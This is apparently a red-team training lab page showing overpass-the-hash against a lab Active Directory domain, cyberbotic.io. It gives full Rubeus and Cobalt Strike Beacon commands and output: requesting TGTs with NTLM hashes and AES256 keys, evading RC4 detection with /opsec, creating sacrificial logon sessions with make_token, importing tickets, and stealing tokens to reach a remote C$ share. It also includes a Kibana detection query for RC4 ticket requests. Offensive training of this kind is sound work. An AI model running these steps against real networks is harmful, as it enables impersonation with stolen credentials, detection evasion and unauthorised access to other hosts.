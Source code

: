 Overpass-the-Hash (also known pass-the-key) allows authentication to take place over Kerberos rather than NTLM.  You can use the NTLM hash or AES keys for a user to request a Kerberos TGT (explained in more detail in the **Kerberos** section).

[Rubeus](https://github.com/GhostPack/Rubeus) allows us to perform opth without needing elevated privileges. The process to follow is:

-   Request a TGT for the user we want to impersonate.
-   Create a sacrificial logon session.
-   Pass the TGT into that logon session.
-   Access the target resource.

Most public articles demonstrate using the NTLM hash to request the TGT.
```shell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 4ffd3eabdce2e158d923ddec72de979e
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

  ServiceName           :  krbtgt/dev.cyberbotic.io
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  7/9/2021 2:46:58 PM
  EndTime               :  7/10/2021 12:46:58 AM
  RenewTill             :  7/16/2021 2:46:58 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  Z1/VMlSwxK4jrbL8qmjvNw==
```

When a TGT is requested, event `4768: A Kerberos authentication ticket (TGT) was requested` is generated.  You can see from the output above that the KeyType is **RC4-HMAC** (0x17), but the default type for Windows is now **AES256** (0x12).

This means we can find 4768's where the encryption type is RC4, which can be significant outliers.
```shell
event.code: 4768 and winlog.event_data.TicketEncryptionType: 0x17
```

Instead, we should request TGTs with the AES keys rather than NTLM hash.  Rubeus also has an `/opsec` argument which tells it to send the request without pre-auth, to more closely emulate genuine Kerberos traffic.
```shell
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec

[*] Action: Ask TGT

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  7/9/2021 2:58:21 PM
  EndTime               :  7/10/2021 12:58:21 AM
  RenewTill             :  7/16/2021 2:58:21 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  x4F1hxBrfwvgleEHnYbg9KV5fch2VOS5m36IO/srA0g=
```
This time we can see the KeyType is AES256, and the generated 4768 joins the sea of 0x12.

A logon session can only hold one TGT at time and we don't want to clobber the TGT of the user we've compromised. Creating a new logon session allows us to use the requested TGT without any adverse effects.

Use `klist` (or `execute-assembly Rubeus klist`) to display the Kerberos tickets in the current logon session (output shortened for brevity):
```shell
beacon> run klist

Current LogonId is 0:0x1f253

Cached Tickets: (4)

#0>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

#1>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: krbtgt/DEV.CYBERBOTIC.IO @ DEV.CYBERBOTIC.IO

#2>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO

#3>    Client: bfarmer @ DEV.CYBERBOTIC.IO
    Server: LDAP/dc-2.dev.cyberbotic.io/dev.cyberbotic.io @ DEV.CYBERBOTIC.IO
```

The current logon session ID (LUID) is **0x1f253** and there are four cached tickets.

Use `make_token` with a dummy password to create and impersonate a new logon session. `klist` will show a different LUID and no tickets.
```shell
beacon> make_token DEV\jking DummyPass
[+] Impersonated DEV\bfarmer

beacon> run klist

Current LogonId is 0:0x785927

Cached Tickets: (0)
```

To pass the TGT into this logon session, we can use Beacon's `kerberos_ticket_use` command. This requires that the ticket be on disk of our attacking workstation (not the target).

This is easily done in PowerShell:
```powershell
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```
or bash:
```shell
root@kali:~# echo -en "[...ticket...]" | base64 -d > jkingTGT.kirbi
```
```shell
beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\jkingTGT.kirbi

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys
```

If you're in an elevated context, Rubeus can shorten some of these steps.
```shell
beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe asktgt /user:jking /domain:dev.cyberbotic.io /aes256:a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1 /nowrap /opsec /createnetonly:C:\Windows\System32\cmd.exe

[*] Action: Ask TGT
[*] Showing process : False
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 3044
[+] LUID            : 0x85a103

[*] Using domain controller: dc-2.dev.cyberbotic.io (10.10.17.71)
[*] Using aes256_cts_hmac_sha1 hash: a561a175e395758550c9123c748a512b4b5eb1a211cbd12a1b139869f0c94ec1
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\jking'
[*] Target LUID : 8757507
[+] TGT request successful!
[*] base64(ticket.kirbi):

      [...ticket...]

[*] Target LUID: 0x85a103
[+] Ticket successfully imported!

  ServiceName           :  krbtgt/DEV.CYBERBOTIC.IO
  ServiceRealm          :  DEV.CYBERBOTIC.IO
  UserName              :  jking
  UserRealm             :  DEV.CYBERBOTIC.IO
  StartTime             :  3/4/2021 12:48:16 PM
  EndTime               :  3/4/2021 10:48:16 PM
  RenewTill             :  3/11/2021 12:48:16 PM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  aes256_cts_hmac_sha1
  Base64(key)           :  Jr93ezQ6z+rc0/1h30UXaGxVkRLVsWSl9mG0nNeXuTU=

beacon> steal_token 3044
[+] Impersonated NT AUTHORITY\SYSTEM

beacon> ls \\srv-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 17:08:43   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/17/2021 18:28:36   System Volume Information
          dir     02/17/2021 18:32:08   Users
          dir     02/17/2021 18:28:54   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 256mb    fil     03/04/2021 10:12:52   pagefile.sys
```

>Perform overpass-the-hash with both an NTLM hash and AES keys.  Find the RC4 ticket in Kibana.




